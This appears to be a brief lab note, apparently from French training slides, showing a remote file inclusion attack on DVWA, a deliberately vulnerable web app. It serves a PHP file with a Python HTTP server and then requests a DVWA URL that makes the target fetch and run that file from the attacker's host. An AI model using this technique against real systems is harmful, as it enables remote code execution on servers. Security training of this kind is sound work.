

#
 python -m http.server 9000

Lancer :
192.168.113.132/dvwa/vulnerabilities/fi/?page=http://192.168.113.133:9000/up.php